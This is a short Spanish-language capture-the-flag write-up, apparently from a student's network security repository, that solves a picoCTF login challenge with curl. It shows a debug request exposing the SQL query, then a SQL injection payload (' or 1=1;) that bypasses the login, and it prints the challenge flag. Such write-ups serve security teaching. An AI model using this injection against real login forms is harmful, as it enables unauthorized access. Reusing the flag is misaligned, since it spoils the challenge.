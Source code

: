 ## Descripción 
```
There is a website running at `https://jupiter.challenges.picoctf.org/problem/50009/` ([link](https://jupiter.challenges.picoctf.org/problem/50009/)) or http://jupiter.challenges.picoctf.org:50009. Do you think you can log us in? Try to see if you can login!
```
[](https://github.com/armandoportillo0101/Seguridad-de-Redes/blob/main/Plantilla.md#objetivo)
## Solución
```bash
porti_04@DESKTOP-8HT902T:~$ curl -s https://jupiter.challenges.picoctf.org/problem/50009/login.php -d "username-admin&password=password&debug=1"
<pre>username:
password: password
SQL query: SELECT * FROM users WHERE name='' AND password='password'
porti_04@DESKTOP-8HT902T:~$ curl -s https://jupiter.challenges.picoctf.org/problem/50009/login.php -d "username-admin&password=' or 1=1;&debug"
<h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}</p>porti_04@DESKTOP-8HT902T:~$

flag: picoCTF{s0m3_SQL_fb3fe2ad}

```
[](https://github.com/armandoportillo0101/Seguridad-de-Redes/blob/main/Plantilla.md#soluci%C3%B3n)

## Notas Adicionales
|   |
|---|
|El comando `curl -s` se utiliza en la línea de comandos para realizar solicitudes HTTP (y otros tipos de transferencias de datos) de manera silenciosa. Aquí, `-s` significa "silent" (silencioso) y suprime la barra de progreso y mensajes de error, mostrando solo la salida de la solicitud.|
[](https://github.com/armandoportillo0101/Seguridad-de-Redes/blob/main/Plantilla.md#notas-adicionales)

### Referencias